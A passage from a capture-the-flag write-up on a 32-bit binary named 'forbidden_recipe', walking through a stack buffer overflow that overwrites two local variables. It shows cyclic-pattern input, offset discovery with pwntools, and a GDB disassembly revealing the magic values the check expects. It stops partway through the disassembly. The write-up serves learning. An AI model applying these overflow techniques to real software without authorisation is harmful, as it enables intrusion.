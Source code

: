 ```
  }
  return;
}
```

Then, from the code, we can see that there is an `if` check that compares with a constant value. If true, it calls the `win()` function and prints the flag. However, the two variables are initially set to 0. Then I remembered that when we run the ELF file
```
└─$ ./forbidden_recipe    
Welcome back to Kogarashi Café.  
Barista: 'I remember you... what will it be this time?'  
hello  
Barista: 'Hmm... that's not quite right. Order codes: 0x0, 0x0'  
Barista: 'Try again, I know you'll get it.'
```
There is a value leak from the program, so I thought it might be related to the two variables `local_10` and `local_14`. I considered using Python's `pwn` library with `cyclic` to overwrite these values and find the offset
```
└─$ ./forbidden_recipe                                             
Welcome back to Kogarashi Café.  
Barista: 'I remember you... what will it be this time?'  
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa  
Barista: 'Hmm... that's not quite right. Order codes: 0x6161616a, 0x61616169'  
Barista: 'Try again, I know you'll get it.'
```
We can see that the values have been changed. Next, I found the offset using `cyclic_find()`.
```
>>> cyclic_find(0x6161616a)
36
>>> cyclic_find(0x61616169)
32
```
The offsets are 32 and 36. So, we need to adjust the payload to fit our desired values at those offsets. To find both values, I used GDB to analyze the disassembled code
```
pwndbg> disass vuln  
Dump of assembler code for function vuln:  
  0x080485e6 <+0>:     push   ebp  
  0x080485e7 <+1>:     mov    ebp,esp  
  0x080485e9 <+3>:     sub    esp,0x38  
  0x080485ec <+6>:     mov    DWORD PTR [ebp-0xc],0x0  
  0x080485f3 <+13>:    mov    DWORD PTR [ebp-0x10],0x0  
  0x080485fa <+20>:    sub    esp,0xc  
  0x080485fd <+23>:    push   0x80487c8  
  0x08048602 <+28>:    call   0x8048430 <puts@plt>  
  0x08048607 <+33>:    add    esp,0x10  
  0x0804860a <+36>:    sub    esp,0xc  
  0x0804860d <+39>:    push   0x80487ec  
  0x08048612 <+44>:    call   0x8048430 <puts@plt>  
  0x08048617 <+49>:    add    esp,0x10  
  0x0804861a <+52>:    sub    esp,0x4  
  0x0804861d <+55>:    push   0x28  
  0x0804861f <+57>:    lea    eax,[ebp-0x30]  
  0x08048622 <+60>:    push   eax  
  0x08048623 <+61>:    push   0x0  
  0x08048625 <+63>:    call   0x80483f0 <read@plt>  
  0x0804862a <+68>:    add    esp,0x10  
  0x0804862d <+71>:    cmp    DWORD PTR [ebp-0xc],0xc0ff33  
  0x08048634 <+78>:    jne    0x8048656 <vuln+112>  
  0x08048636 <+80>:    cmp    DWORD PTR [ebp-0x10],0xdecafbad  
  0x0804863d <+87>:    jne    0x8048656 <vuln+112>  
  0x0804863f <+89>:    sub    esp,0xc  
  0x08048642 <+92>:    push   0x8048824  
```